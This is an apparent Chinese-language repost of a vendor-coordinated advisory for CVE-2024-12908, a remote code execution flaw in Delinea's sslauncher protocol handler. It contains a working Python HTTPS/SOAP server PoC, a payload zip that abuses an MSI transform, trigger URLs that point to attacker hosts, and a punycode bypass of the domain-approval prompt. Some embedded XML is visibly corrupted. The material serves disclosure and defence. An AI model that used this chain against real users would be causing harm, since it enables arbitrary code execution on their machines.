





#  Delinea 协议处理程序 - 通过更新进程执行远程代码（CVE-2024-12908）   

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Delinea Secret Server Protocol Handler/RDPWin.Bootstrapper
- 本文讨论：CVE-2024-12908签名MSI配恶意MST更新链
- 版本、权限与配置前提：测试6.0.3.28，修复6.0.3.31/SecretServer11.7.000049；客户端已装、URL触发/用户同意或特定域名绕过、允许自动更新、TLS有效
- 资料类型：客户端更新链逆向分析；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- Secret Server版本与Protocol Handler版本需分开；≤6.0.3.26可能不受该链只是推断
- XML响应多处标签/命名空间中插空格和断字，破损不可直接解析
- 讲GetNext版本方法却示例用GetCurrent，需注明apiVersion分支
- 已批准company.delinea.com与演示根域不同，比较相等条件未满足；称比较失败却绕过逻辑应为错误匹配
- Unicode ToLower行为依赖区域设置/运行时，不能无条件成立；错误字符检查只遍历参数名而非所有值

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 原始公告、文化区域/IDN行为、MSI执行权限与完整版本范围待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

 Ots安全   2024-12-28 06:29  
  
  
  
**概括**  
  
Secret Server 协议处理程序促进 Secret Server 与客户端计算机之间的通信。它还提供启动器运行所需的文件。当用户启动启动器时，协议处理程序：  
1. 引导客户端应用程序。  
  
1. 通过 HTTP(S) 与 Secret Server 通信以确保它是最新版本，并在必要时启动升级。  
  
1. 引导目标启动器类型并开始安全登录用户的过程。  
  
Delinea 协议处理程序的 sslauncher URL 处理程序中存在远程代码执行漏洞。恶意攻击者可利用此漏洞在用户计算机上执行任意代码。  
  
**影响**  
  
远程攻击者可能会诱使用户访问恶意网页或打开恶意文档，从而触发易受攻击的 URL 处理程序，从而使他们在用户的计算机上执行任意代码。这可能使攻击者能够安装恶意软件、窃取数据或以其他方式获得网络的远程访问权限。  
  
**受影响的版本**  
  
6.0.3.28 Secret Server 11.7 的发布说明指出：“如果您的协议处理程序版本为 6.0.3.26 或更低版本，则必须手动升级到更高版本。自动升级不适用于 6.0.3.26 或更低版本。但是，如果您的协议处理程序版本为 6.0.3.27 或更高版本，则自动升级将正常运行。”由于该漏洞使用自动更新功能，因此旧版本可能不会受到影响。  
  
**时间线**  
- 2024-09-09：向 Delinea 报告漏洞  
  
- 2024-09-10：收到 Delinea 的确认  
  
- 2024-11-28：AmberWolf 告知该问题已在 Secret Server 11.7.000049 中修复  
  
- 2024-12-26：AmberWolf 公告发布。  
  
**描述**  
  
Delinea Secret Server Protocol Handler 软件使用 sslauncher:// 方案注册自定义 URI 处理程序  
  
  
  
图像  
  
下面的截图显示了通过 Edge 调用的处理程序：  
  
  
  
图像  
  
这将导致以下进程启动：  
  
```
"C:\Program Files\Thycotic Software Ltd\Secret Server Protocol Handler\RDPWin.Bootstrapper.exe" "sslauncher://aaaa/"
```  
  
  
  
RDPWin.Bootstrapper.exe 的 Main() 函数接收程序参数并首先检查不允许的字符：  
  
```
public List<string> GetDisallowedQueryStringParameters()        {
            Regex regex = new Regex("^[a-zA-Z0-9\\.-]+$", RegexOptions.Compiled | RegexOptions.Singleline);
            List<string> list = new List<string>();
            foreach (string text in base.Keys)
            {
                if (!regex.IsMatch(text))
                {
                    list.Add(text);
                }
            }
            return list;
        }
```  
  
  
这会导致拒绝包含特殊字符的参数。验证继续进行，并检查 sslauncher URL 中可接受的参数列表：  
  
```
private readonly List<string> _knownQueryStringParameters = new List<string> { "ssurl", "guid", "type", "sessionGuid", "apiVersion", "autoUpdateEnabled" };

public List<string> GetUnknownQueryStringParameters()        {
            List<string> list = new List<string>();
            foreach (string text in base.Keys)
            {
                if (!this._knownQueryStringParameters.Contains(text, StringComparer.OrdinalIgnoreCase))
                {
                    list.Add(text);
                }
            }
            return list;
        }
```  
  
  
例如，以下内容将被拒绝：  
  
```
sslauncher://aaaa/?badparameter=bbb
```  
  
  
但这是可以接受的：  
  
```
sslauncher://aaaa/?ssurl=bbb
```  
  
  
下一个验证步骤检查是否已提供 ssurl 参数，它是否可以用于创建有效的 Uri 对象以及是否具有包含至少三个子目录的路径：  
  
```
if (!queryStringInfo.TryGetValue("ssurl", out text5) || !Uri.TryCreate(text5, UriKind.Absolute, out uri))
                    {
                        Program.Log.Error("No valid Secret Server URL provided");
                        IoC.Resolve<IMessageBox>().Show("The Secret Server Launcher failed to load.\n\nNo valid Secret Server URL was provided.", "Error", MessageBoxButtons.OK, MessageBoxIcon.Hand);
                    }
```  
  
  
所以我们的 sslauncher 值现在必须看起来像这样：  
  
```
sslauncher://aaaa/?ssurl=https://www.attacker.com/aaa/bbb/ccc
```  
  
  
接下来根据注册表设置进行检查，以确定是否已配置域允许列表：  
  
```
if (allowedDomains != null && allowedDomains.Count > 0 && !registrySettings.AllowedDomains.Contains(uri.Host, StringComparer.OrdinalIgnoreCase))
                        {
                            Program.Log.Error("AllowedDomains registry key does not allow connecting to host at " + uri.Host + ", quitting.");
                            IoC.Resolve<IMessageBox>().Show("The Secret Server Launcher failed to load.\n\nYour configuration settings do not allow connecting to the Secret Server installation at " + uri.Host + ".", "Error", MessageBoxButtons.OK, MessageBoxIcon.Hand);
                        }
```  
  
  
在协议处理程序的默认安装中，此注册表值为空，因此跳过检查，并且代码继续对 ssurl 参数中提供的域进行 TLS 证书检查：  
  
```
public bool GetAndVerifyCertificate()        {
            string components = this._uri.GetComponents(UriComponents.SchemeAndServer, UriFormat.Unescaped);
            string text = string.Format("{0}/{1}", this._uri.GetComponents(UriComponents.SchemeAndServer, UriFormat.Unescaped), this._uri.GetComponents(UriComponents.Path, UriFormat.Unescaped));
            if (!string.Equals(this._uri.Scheme, "https", StringComparison.OrdinalIgnoreCase))
            {
                this._log.Warn("Could not validate HTTPS certificate: Secret Server URL is not HTTPS (" + text + ")");
                this._messageBox.Show("You must connect to Secret Server using HTTPS.\nCurrent URL: " + text + "\n\nFor assistance, please contact your administrator.\n\n", "HTTPS Validation Error", MessageBoxButtons.OK, MessageBoxIcon.Hand);
                return false;
            }
            ServicePointManager.CheckCertificateRevocationList = true;
            HttpWebRequest httpWebRequest = WebRequest.CreateHttp(components);
            httpWebRequest.ServerCertificateValidationCallback = new RemoteCertificateValidationCallback(this.CertificateValidator);
            httpWebRequest.AllowAutoRedirect = false;
            try
            {
                using (httpWebRequest.GetResponse())
                {
                }
            }
            catch (Exception ex)
            {
                if (this._sslPolicyErrors == null)
                {
                    this._log.Error("Unspecified error occurred when attempting to connect to Secret Server for HTTPS validation", ex);
                    this._messageBox.Show("Unable to connect to Secret Server to verify its HTTPS certificate:\n\n" + ex.Message + "\n\nPlease try again later.", "Unable to Connect", MessageBoxButtons.OK, MessageBoxIcon.Hand);
                    return false;
                }
                if (this._sslPolicyErrors.Value == SslPolicyErrors.None)
                {
                    this._log.Debug("HTTPS validation succeeded without error for " + components);
                    return true;
                }
                if (this.AreCurrentErrorsBypassed())
                {
                    return true;
                }
                return this.DisplayErrorsAndPrompt();
            }
            this._log.Debug("HTTPS validation succeeded without error for " + components);
            return true;
        }
```  
  
  
这可以通过获取 Web 服务器的有效 TLS 证书来满足。之后，将 ssurl 域与存储在以下文件中的先前验证过的域列表进行比较：  
  
```
%APPDATA%\Thycotic\SSUA.dat
```  
  
  
如果无法匹配之前批准的域名之一，则会出现类似下图的提示。我们稍后会讨论如何绕过此检查。  
  
  
  
图像  
  
接受此提示后将继续检查 sslauncher 值中是否存在布尔 autoUpdateEnabled 参数，例如：  
  
```
sslauncher://aaaa/?ssurl=https://www.attacker.com/aaa/bbb/ccc&autoUpdateEnabled=true
```  
  
  
当设置为 true 时，这会强制代码沿着一条路径通过 GetNextProtocolHandlerVersion 检查软件的更新版本，这会向“ssurl”参数中定义的 URL 发出 SOAP 请求：  
  
```
[SoapDocumentMethod("urn:thesecretserver.com/GetNextProtocolHandlerVersion", RequestNamespace = "urn:thesecretserver.com", ResponseNamespace = "urn:thesecretserver.com", Use = SoapBindingUse.Literal, ParameterStyle = SoapParameterStyle.Wrapped)]
        public string GetNextProtocolHandlerVersion(string existingVersion)        {
            return (string)base.Invoke("GetNextProtocolHandlerVersion", new object[]
            {
                existingVersion
            })[0];
        }
```  
  
  
SOAP 主体如下所示，调用 GetCurrentProtocolHandlerVersion 方法：  
  
```
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema"><soap:Body><GetCurrentProtocolHandlerVersion xmlns="urn:thesecretserver.com" /></soap:Body></soap:Envelope>
```  
  
  
预期响应包含一个 GetCurrentProtocolHandlerVersionResult 值，该值告知客户端 SSProtocolHandler 软件的最新版本号。  
  
```
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd=" http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/en velope/">
  <soap:Body>
    <GetCurrentProtocolHandlerVersionResponse xmlns="urn:thesecretserver.com">
      <GetCurrentProtocolHandlerVersionResult>9.9</GetCurrentProtocolHandlerVers                                                                                            ionResult>
    </GetCurrentProtocolHandlerVersionResponse>
  </soap:Body>
</soap:Envelope>
```  
  
  
然后将该版本号与当前安装的版本进行比较，然后检查注册表中的密钥Software\ThycoticProtocolHandler\ForceAutoUpdate。同样，此注册表不是默认设置的，因此在协议处理程序的标准安装中，将允许自动更新。  
  
如果需要更新，代码将继续通过 SOAP 请求向 ssurl 参数中定义的相同 URL 请求新版本的安装程序，通过调用 GetNewVersionMsi 函数，该函数检查文件扩展名并在对硬编码文件名的响应中写出数据：  
  
```
public string GetNewVersionMsi(string url, string specificVersion = null)        {
            string result;
            using (RdpWebService rdpWebService = new RdpWebService())
            {
                rdpWebService.Url = url;
                rdpWebService.UserAgent = WebserviceHandler.UserAgent.Value;
                byte[] array = (specificVersion != null) ? rdpWebService.GetSpecificVersion(specificVersion) : rdpWebService.GetNewVersion();
                string tempPath = Path.GetTempPath();
                string path;
                if (this.IsZipFile(array))
                {
                    path = "SSProtocolHandler.zip";
                }
                else
                {
                    path = "SSProtocolHandler.msi";
                }
                string text = Path.Combine(tempPath, path);
                File.Delete(text);
                File.WriteAllBytes(text, array);
                result = text;
            }
            return result;
        }
```  
  
  
byte[] 数组值由 GetNewVersionResult 字符串的 base64 解码值填充，如下面的示例 SOAP 响应所示：  
  
```
'<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd=" http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/en velope/">
  <soap:Body>
    <GetNewVersionResponse xmlns="urn:thesecretserver.com">
      <GetNewVersionResult>UEsDBBQAAAAIAEyJCVl9vedCOwAAADwAAAAbAAAAU1NQcm90b2Nvb EhhbmRsZXIvc2V0dXAuYmF0yy3OTK1ITVbQz1TILc6MCQ4OKMovyU/Oz/FIzEvJSS3SA4oqhAQ5+gW7+ Qf5BtsqJZcWl+TnAoVLlABQSwECFAAUAAAACABMiQlZfb3nQjsAAAA8AAAAGwAAAAAAAAABACAAAAAAA AAAU1NQcm90b2NvbEhhbmRsZXIvc2V0dXAuYmF0UEsFBgAAAAABAAEASQAAAHQAAAAAAA</GetNewVer                                                                                            sionResult>
    </GetNewVersionResponse>
  </soap:Body>
</soap:Envelope>
```  
  
  
然后，应用程序根据生成的文件是 .zip 文件还是 .msi 文件做出决定。如果是 zip 文件，则将内容提取到临时目录并SSProtocolHandler\setup.bat读取文件的内容：  
  
```
text5 = Path.Combine(tempPath, Guid.NewGuid().ToString());
                                            ZipFile.ExtractToDirectory(newVersionMsi, text5);
                                            text6 = Enumerable.FirstOrDefault<string>(File.ReadLines(Path.Combine(text5, "SSProtocolHandler", "setup.bat")));
```  
  
  
执行命令链检查：  
  
```
if (string.IsNullOrWhiteSpace(text6) || !text6.StartsWith("msiexec /i msi\\SSProtocolHandler.msi") || text6.Contains("&"))
                                            {
                                                Program.Log.Error("Invalid batch file command in downloaded update: " + text6);
                                                IoC.Resolve<IMessageBox>().Show("The Secret Server Launcher failed to load.\n\nAuto-update is enabled, but the downloaded update batch file is invalid. You may be the victim of a phishing attack.", "Invalid Update Downloaded", MessageBoxButtons.OK, MessageBoxIcon.Hand);
                                                return;
                                            }
```  
  
  
然后定义一个字符串（text7），表示从 zip 文件中提取的 MSI 文件的完整路径：  
  
```
text7 = Path.Combine(text5, "SSProtocolHandler", "msi", "SSProtocolHandler.msi");
```  
  
  
对 MSI 文件进行检查，以确保它具有来自特定 Delinea 机构的有效签名，防止内容在执行之前被修改：  
  
```
bool flag5 = SignatureVerification.HasValidSignature(text7);
                                        bool flag6 = SignatureVerification.HasDelineaSignature(text7);
```  
  
  
不是直接运行 .bat 文件，而是提取 msiexec 命令行以及任何自定义参数。然后将其与 MSI 文件的路径（存储在 text7 中）组合并传递给 Process.Start() 参数：  
  
```
Process.Start(new ProcessStartInfo
                                            {
                                                FileName = "msiexec.exe",
                                                Arguments = "/i \"" + text7 + "\" " + array[3],
                                                UseShellExecute = false
                                            });
```  
  
  
虽然我们可以强制应用程序尝试从解压的 zip 中执行任意 MSI 文件，但修改文件会破坏签名并阻止文件运行。由于可以为 msiexec.exe 命令指定任意参数，因此可以通过在 zip 中包含 .MST 文件（MSI 转换）并在命令参数中引用它来规避这种情况：  
  
```
msiexec /i msi\\SSProtocolHandler.msi TRANSFORMS="delinea.mst"
```  
  
  
这会导致 msiexec 搜索并将转换应用于已签名的 MSI，从而影响其运行时的行为。例如，AdvancedInstaller 工具用于创建一个转换，该转换在执行 MSI 时运行一个简单的 PowerShell 脚本。  
  
以下概念验证可通过适当的 TLS 证书进行托管。请注意，zip 内容必须包含由 Delinea 签名的 MSI 文件 - 出于演示目的，SSSessionConnector 安装程序（  
https://updates.thycotic.net/secretserver/tools/SSSessionConnector.zip）被重命名并使用，因为它的大小相对较小。  
  
```
from http.server import BaseHTTPRequestHandler, HTTPServer
import ssl
import logging
import base64

class SimpleSOAPHandler(BaseHTTPRequestHandler):
    def _set_headers(self, content_type="text/xml"):
        self.send_response(200)
        self.send_header('Content-type', content_type)
        self.end_headers()

    def do_GET(self):
        logging.info("GET request received. Path: %s", self.path)
        self._set_headers()
        self.wfile.write(b"GET request processed.")

    def do_POST(self):
        content_length = int(self.headers['Content-Length']) # Get the size of data
        post_data = self.rfile.read(content_length) # Read the data
        logging.info("POST request received. Path: %s", self.path)
        logging.info("POST request body:\n%s", post_data.decode('utf-8'))


        print("Reading in zip file")
        zip_file= open("payload.zip","rb")
        zip_data_binary = zip_file.read()
        zip_data = (base64.b64encode(zip_data_binary)).decode('ascii')
        # Check if the post_data matches the expected SOAP request
        if b"GetCurrentProtocolHandlerVersion" in post_data:
         response = '''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">  <soap:Body>    <GetCurrentProtocolHandlerVersionResponse xmlns="urn:thesecretserver.com">      <GetCurrentProtocolHandlerVersionResult>9.9</GetCurrentProtocolHandlerVersionResult>    </GetCurrentProtocolHandlerVersionResponse>  </soap:Body></soap:Envelope>'''
         self._set_headers()
         self.wfile.write(response.encode('utf-8'))
        elif b"GetNewVersion" in post_data:
         print("New version requested")
         response = '''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">  <soap:Body>    <GetNewVersionResponse xmlns="urn:thesecretserver.com">      <GetNewVersionResult>''' + zip_data + '''</GetNewVersionResult>    </GetNewVersionResponse>  </soap:Body></soap:Envelope>'''
         #print("Sending response: " + response)
         self._set_headers()
         self.wfile.write(response.encode('utf-8'))
        else:
         self.send_response(400) # Bad request
         self.end_headers()

def run(server_class=HTTPServer, handler_class=SimpleSOAPHandler, port=443, cert_file="fullchain.pem", key_file="privkey.pem"):
    logging.basicConfig(level=logging.INFO)
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)

    # SSL configuration using SSLContext
    context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
    context.load_cert_chain(certfile=cert_file, keyfile=key_file)
    
    httpd.socket = context.wrap_socket(httpd.socket, server_side=True)

    logging.info('Starting https server on port %d...', port)
    httpd.serve_forever()

if __name__ == "__main__":
    run()
```  
  
  
压缩文件内容：  
  
```
payload.zip
└───SSProtocolHandler
    │ delinea.mst
    │ setup.bat
    │
    └───msi
            delinea.mst
            SSProtocolHandler.msi
```  
  
  
setup.bat文件内容如下：  
  
```
msiexec /i msi\\SSProtocolHandler.msi TRANSFORMS="delinea.mst"
```  
  
  
要触发处理程序并运行 MSI，可以使用以下 URL：  
  
```
sslauncher://aaaaaaa/?ssurl=https://hostingdomain.com/aaaa/bbbb/cccc&autoUpdateEnabled=true&apiversion=1
```  
  
  
**绕过警告**  
  
正如我们前面提到的，在某些情况下，可以绕过用户在针对新域使用协议处理程序时收到的批准对话框。  
  
在某些情况下，可以利用 C# 中 Uri 和字符串对象之间的解析器差异来绕过对先前授权域的检查。  
  
检查 ssurl 域是否已预先批准的代码位于 RDPWin.Business.dll 中的 RDPWin.Bootstrapper.SecretServerUrlApprovalHelper.GetSecretServerUrlApproval() 函数中，该函数将 ssurl 域作为字符串，并将其与 %APPDATA%\Thycotic\SSUA.dat 中存储的值进行比较：  
  
```
public static SecretServerUrlApprovalBase GetSecretServerUrlApproval(string ssUrl)
        {
            IMessageBox messageBox = IoC.Resolve<IMessageBox>();
            ISecretServerUrlApprovalProvider secretServerUrlApprovalProvider = IoC.Resolve<ISecretServerUrlApprovalProvider>();
            string ssUrlBase = SecretServerUrlApprovalHelper.GetSecretServerUrlBase(ssUrl);
            if (ssUrlBase == null)
            {
                throw new ArgumentException("Invalid Secret Server URL: " + ssUrl);
            }
            SecretServerUrlApprovals secretServerUrlApprovals = secretServerUrlApprovalProvider.GetSecretServerUrlApprovals();
            SecretServerUrlApprovalBase secretServerUrlApprovalBase = secretServerUrlApprovals.Approvals.FirstOrDefault((SecretServerUrlApprovalBase approval) => approval.SecretServerUrl == ssUrlBase);
            if (secretServerUrlApprovalBase != null)
            {
                SecretServerUrlApprovalHelper._log.Debug("Existing host approval found for URL " + ssUrlBase);
                return secretServerUrlApprovalBase;
            }
            string messageText = "Secret Server Launcher is attempting to launch with the following Secret Server URL:\r\n\r\n " + ssUrlBase + "\r\n\r\nIf you did not expect this launch attempt, or this Secret Server URL is incorrect, do not continue and contact a system administrator immediately.\r\n\r\nWas this launch expected and do you approve of this Secret Server URL?";
            DialogResult dialogResult = messageBox.Show(messageText, "Secret Server Launcher Attempt", MessageBoxButtons.YesNoCancel, MessageBoxIcon.Question);
            if (dialogResult == DialogResult.Cancel)
            {
                SecretServerUrlApprovalHelper._log.Debug("Canceled URL approval for " + ssUrlBase);
                return null;
            }
            SecretServerUrlApprovalBase secretServerUrlApprovalBase2 = new SecretServerUrlApprovalBase
            {
                SecretServerUrl = ssUrlBase,
                Approved = (dialogResult == DialogResult.Yes)
            };
            secretServerUrlApprovals.Approvals.Add(secretServerUrlApprovalBase2);
            secretServerUrlApprovalProvider.SaveSecretServerUrlApprovals(secretServerUrlApprovals);
            SecretServerUrlApprovalHelper._log.Debug("Added URL approval for " + ssUrlBase);
            return secretServerUrlApprovalBase2;
        }
```  
  
  
该函数中有很多事情要做，所以我们将深入研究每个部分。首先，调用 GetSecretServerUrlBase() 函数，并将 ssurl 值传递给它。此函数的目的是在比较之前从 URL 中规范化域。此函数的代码是：  
  
```
public static string GetSecretServerUrlBase(string ssUrl)        {
            string result;
            try
            {
                Uri uri = new Uri(ssUrl);
                string text = uri.GetLeftPart(UriPartial.Path);
                string leftPart = uri.GetLeftPart(UriPartial.Scheme);
                text = text.Substring(leftPart.Length);
                for (int i = 0; i < 3; i++)
                {
                    int length = text.LastIndexOf("/", StringComparison.Ordinal);
                    text = text.Substring(0, length);
                }
                text = leftPart + text;
                result = text.ToLower();
            }
            catch (Exception)
            {
                result = null;
            }
            return result;
        }
```  
  
  
在提取域之前，首先将 ssurl 字符串对象转换为 Uri 对象，然后调用 ToLower() 函数将字符串转换为小写。虽然这在执行字符串比较时是一种很好的做法，但实验表明 toLower() 会将一些 unicode 字符转换为不同的 ASCII 表示形式。  
  
使用一个小型测试工具通过 GetSecretServerUrlBase() 函数运行整个 unicode 字符范围，以确定输入字符与 toLower() 调用结果之间的任何差异。以下两个字符似乎提供了有用的替换。  
  
  
  
图像  
  
可以使用上述字符生成 punycode url，例如：  
  
  
  
注册 xn–delinea-9he.com 作为域名将允许创建以下有效负载（假设受害者已经接受 company.delinea.com 作为批准端点）：  
  
```
sslauncher://aaaaaaa/?ssurl=https://xn--delinea-9he.com/aaaa/bbbb/cccc&autoUpdateEnabled=true&apiversion=1
```  
  
  
绕过的根本原因是：  
  
任何 Web 请求（例如，检查新版本或获取更新的 MSI）都是使用 Uri 对象执行的，该对象可以正确处理 punycode 编码的字符串并向恶意 delİnea.com 网站发出请求。  
  
toLower() 操作所创建的字符串用于与已批准站点列表进行比较。由于 U+0130 字符已转换为常规“i”，因此如果存储的域名为 delinea.com，则会导致比较失败。  
  
因此，如果攻击者能够使用上述 punycode 绕过技术构建 URL，则用户将不会看到“Secret Server 正在尝试启动以下 URL”的警告。  
  
**推荐**  
  
Delinea 发布了协议处理程序 (6.0.3.31) 的修补版本，可防止加载转换。Secret Server 版本 11.7.000049 的发行说明中详细介绍了这一点：  
  
https://docs.delinea.com/online-help/secret-server/release-notes/ss-rn-11-7-000049.htm#SecretServer117000049ReleaseNotes  
  
  
  
感谢您抽出  
  
  
  
.  
  
  
  
.  
  
  
  
来阅读本文  
  
  
  
**点它，分享点赞在看都在这**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
